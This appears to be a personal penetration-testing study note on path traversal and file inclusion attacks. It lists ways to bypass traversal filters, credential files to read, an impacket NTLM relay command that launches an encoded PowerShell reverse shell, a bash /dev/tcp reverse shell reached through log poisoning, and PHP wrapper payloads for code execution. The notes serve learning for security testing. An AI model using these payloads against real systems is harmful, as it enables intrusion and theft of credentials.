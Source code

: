 ```yaml
---
layout: blank
pagetitle: Path Traversal Attacks
---
```


**Path Traversal with Other Returned Content Types**
- Sometimes the app will return something like `/etc/passwd` in `image/jpeg` format
  - Firefox does NOT like this and will not show the contents of the image, instead displaying an error
    - Viewing the network request has a similar result
  - Thus, must be viewed via something showing the raw response (like burp or curl)

**Bypassing traversal defenses**
- Try using absolute paths
- Try using `....//` if `../` is stripped
- Try encoding the data for forms (which often automatically strip the attempts):
  - `%2f` for `/` and `%2e` for `.` 
  - `%252f` for `%2f` and `%252e` for `%2e` (double encoded)
- Alternative encodings may also work
  - `..%c0%af` is `..`, `..%ef%bc%8f` is `.. ／ `
- Try using `%00` or `%0a` to bypass required endings
  - e.g. `/etc/passwd%00.png`

**Windows Directory Traversal**
- Test Windows traversal with `C:\Windows\System32\drivers\etc\hosts` (if win.ini not working)
- DT to system access on Windows:
	- Look in home directories for `.ssh`
	- IIS server: 
		- `C:\inetpub\logs\LogFiles\W3SVC1\` is logs
		- `C:\inetpub\wwwroot\web.config` - config w/ potential creds
- Also, if we can pass IPs, use for stealing NTLM hash
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`

**File Inclusion**
- Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed
- LFI example attack path
	- Can access local files with ?page=
	- Apache's /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting
	- Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing
	- Can turn into a reverse shell with `bash -i >& /dev/tcp/{IP}/4444 0>&1`
		- If executed with Bourne Shell, we can prepend `bash -c` to ensure shell uses bash
- PHP wrappers can be used to display PHP when it would have otherwise executed
	- php://filter/convert.base64-encode/resouce=admin.php
	- data:// wrapper can be used for code execution
		- `data://text/plain,<php echo system('ls'); ?>` in an LFI could cause RCE
		- b64 version: `data://text/plain;base64,`
- Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link
- Things to include:
	- **/var/www/html/backup.php**
	- **/opt/admin.bak.php**
	- **/opt/install.txt** (or **C:\\Users\\install.txt**)
	- **/opt/passwords**

